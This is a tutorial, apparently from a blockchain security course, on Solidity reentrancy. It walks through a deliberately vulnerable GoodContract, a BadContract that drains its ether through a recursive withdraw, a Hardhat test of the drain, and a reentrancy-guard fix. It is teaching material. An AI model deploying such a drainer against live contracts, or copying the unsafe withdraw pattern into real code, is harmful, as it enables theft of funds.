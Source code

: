 # Re-Entrancy

Who wants to some hacking!!!

---

## What is Re-Entrancy?

- Contract A calls a function in contract B
- Then contract B calls back into contract A while contract A is still processing

This can lead to some serious vulnerabilities in Smart contracts.

## Real World Examples?

[The DAO Attack](https://coinmarketcap.com/alexandria/article/a-history-of-the-dao-hack)

## Requirements

- There will be two contracts: GoodContract and BadContract
- BadContract should be able drain all the Eth out of the GoodContract

## Build

Lets build an example where you can experience how the Re-Entrancy attack happens.

- To setup a Hardhat project, Open up a terminal and execute these commands

  ```bash
  npm init --yes
  npm install --save-dev hardhat
  ```

- In the same directory where you installed Hardhat run:

  ```bash
  npx hardhat
  ```

  - Select `Create a basic sample project`
  - Press enter for the already specified `Hardhat Project root`
  - Press enter for the question on if you want to add a `.gitignore`
  - Press enter for `Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

Now you have a hardhat project ready to go!

If you are not on mac, please do this extra step and install these libraries as well :)

```bash
npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
```

and press `enter` for all the questions.

- Start by creating a new file inside the contracts directory called GoodContract.sol

```go
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract GoodContract {

    mapping(address => uint) public balances;

    /**
        addBalance is used to add ether to the user's balance
     */
    function addBalance() public payable {
        balances[msg.sender] += msg.value;
    }

    /**
        withdraw is used to remove the user's balance of ether
     */
    function withdraw() public {
        require(balances[msg.sender] > 0);
        (bool sent, ) = msg.sender.call{value: balances[msg.sender]}("");
        require(sent, "Failed to send ether");
        // This code becomes unreachable because the contract's balance is drained
        // before user's balance could have been set to 0
        balances[msg.sender] = 0;
    }
}
```

- GoodContract has two functions

  - addBalance() which adds balance of ether for an address
  - withdraw() where users can withdraw all of their balance at once

- Now lets create another file inside the contracts directory known as `BadContract.sol`

```go
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.10;

    import "./GoodContract.sol";

    contract BadContract {
        GoodContract public goodContract;
        constructor(address _goodContractAddress) {
            goodContract = GoodContract(_goodContractAddress);
        }
        // Function to receive Ether. msg.data must be empty
        receive() external payable {
            if(address(goodContract).balance > 0) {
                goodContract.withdraw();
            }
        }
        /**
            attack would start an attack to withdraw all the funds from the
            goodContract
        */
        function attack() public payable {
            goodContract.addBalance{value: msg.value}();
            goodContract.withdraw();
        }
    }
```

- BadContract has two functions

  - contructor which takes in the GoodContract's address and intilializes its own instance of GoodContract
  - recieve() which gets called when contract recieves ethers and msg.data is empty
  - attack() is the function which the user will use to drain all the Eth out of the GoodContract, how it will do so is as follows:
    - Attack will call addBalance, making sure that BadContract's address has some balance in the GoodContract
    - Now it will try calling the `GoodContract` withdraw function which will first check that the BadContract has some balance and then it will send `Eth` equal to BadContract's address balance to the BadContract.
    - This will trigger the recieve function in the BadContract which will again call the withdraw function.
    - Now in the withdraw function because `balances[msg.sender] = 0;` has not been executed yet, the contract still believes that the BadContract's address has balance.
    - So it again sends the Eth equal to the amount of BadContract's balance to BadContract
    - This keeps happening till all the Eth in GoodContract is drained

- Replace all the code in your `hardhat.config.js` with the following code:

  ```javascript
  require("@nomiclabs/hardhat-waffle");

  // This is a sample Hardhat task. To learn how to create your own go to
  // https://hardhat.org/guides/create-task.html
  task("accounts", "Prints the list of accounts", async (taskArgs, hre) => {
    const accounts = await hre.ethers.getSigners();

    for (const account of accounts) {
      console.log(account.address);
    }
  });

  // You need to export an object to set up your config
  // Go to https://hardhat.org/config/ to learn more

  /**
   * @type import('hardhat/config').HardhatUserConfig
   */
  module.exports = {
    solidity: "0.8.10",
  };
  ```

- Now we would write a test to make sure that our BadContract is actually draining all the funds from the GoodContract

- Read [Hardhat Docs for testing](https://hardhat.org/tutorial/testing-contracts.html) before procedding

- Now create a file under the `test` folder named `attack.js`

- Add the following content to `attack.js`

  ```js
  const { expect } = require("chai");
  const { BigNumber } = require("ethers");
  const { ethers, waffle } = require("hardhat");

  describe("Attack", function () {
    it("Should empty the balance of the good contract", async function () {
      // Deploy the good contract
      const goodContract = await ethers.getContractFactory("GoodContract");
      const _goodContract = await goodContract.deploy();
      await _goodContract.deployed();
      console.log("Good Contract's Address", _goodContract.address);
      //Deploy the bad contract
      const badContract = await ethers.getContractFactory("BadContract");
      const _badContract = await badContract.deploy(_goodContract.address);
      await _badContract.deployed();
      console.log("Bad Contract's Address", _badContract.address);
      // Get two addresses
      const [_, addr1, addr2] = await ethers.getSigners();

      // User1 deposits 10 ether into the contract
      let tx = await _goodContract.connect(addr1).addBalance({
        value: ethers.utils.parseEther("10.0"),
      });

      await tx.wait();

      const provider = waffle.provider;

      // Check that at this point the GoodContract's balance is not zero
      let balanceETH = await provider.getBalance(_goodContract.address);
      expect(balanceETH).to.not.equal(BigNumber.from("0"));

      // User calls attack function
      tx = await _badContract.connect(addr2).attack({
        value: ethers.utils.parseEther("1.0"),
      });
      await tx.wait();

      balanceETH = await provider.getBalance(_goodContract.address);
      // Balance of the GoodContract's address is zero know
      expect(balanceETH).to.equal(BigNumber.from("0"));
    });
  });
  ```

- Now to finally execute the test, on your terminal type:

  ```
  npx hardhat test
  ```

- If all your tests are passing you have completed the module. Use the GoodContract's Address that was printed on your terminal to verify this level on the website

## Prevention

- Ensure all state changes happen before calling external contracts
- Use function modifiers that prevent re-entrancy

```go
    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
```
